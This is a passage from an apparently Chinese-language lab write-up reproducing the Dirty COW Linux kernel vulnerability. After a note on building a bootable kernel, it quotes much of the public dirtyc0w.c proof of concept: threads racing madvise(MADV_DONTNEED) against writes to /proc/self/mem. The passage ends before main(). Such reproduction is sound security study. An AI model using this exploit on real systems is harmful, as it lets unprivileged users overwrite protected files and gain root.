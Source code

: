 即得到bootable kernel。

### PoC

从[https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs)选取dirtyc0w.c：

```c
#include <stdio.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <unistd.h>
#include <sys/stat.h>
#include <string.h>
#include <stdint.h>

void *map;
int f;
struct stat st;
char *name;
 
void *madviseThread(void *arg)
{
  char *str;
  str=(char*)arg;
  int i,c=0;
  for(i=0;i<100000000;i++)
  {
/*
You have to race madvise(MADV_DONTNEED) :: https://access.redhat.com/security/vulnerabilities/2706661
> This is achieved by racing the madvise(MADV_DONTNEED) system call
> while having the page of the executable mmapped in memory.
*/
    c+=madvise(map,100,MADV_DONTNEED);
  }
  printf("madvise %d\n\n",c);
}
 
void *procselfmemThread(void *arg)
{
  char *str;
  str=(char*)arg;
/*
You have to write to /proc/self/mem :: https://bugzilla.redhat.com/show_bug.cgi?id=1384344#c16
>  The in the wild exploit we are aware of doesn't work on Red Hat
>  Enterprise Linux 5 and 6 out of the box because on one side of
>  the race it writes to /proc/self/mem, but /proc/self/mem is not
>  writable on Red Hat Enterprise Linux 5 and 6.
*/
  int f=open("/proc/self/mem",O_RDWR);
  int i,c=0;
  for(i=0;i<100000000;i++) {
/*
You have to reset the file pointer to the memory position.
*/
    lseek(f,(uintptr_t) map,SEEK_SET);
    c+=write(f,str,strlen(str));
  }
  printf("procselfmem %d\n\n", c);
}
 
 
```